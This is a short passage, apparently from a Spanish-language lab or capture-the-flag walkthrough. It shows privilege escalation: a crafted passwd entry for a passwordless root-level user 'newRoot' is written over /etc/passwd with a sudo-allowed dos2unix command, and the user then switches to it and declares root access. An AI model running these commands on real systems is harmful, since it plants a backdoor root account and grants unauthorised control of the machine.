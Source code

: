 ```
newRoot::0:0:newRoot:/root:/bin/bash


```

Ejecutamos :

```bash

sudo dos2unix -f -n /tmp/passwd /etc/passwd
su newRoot

```

**YA ESTAMOS COMO ROOT.**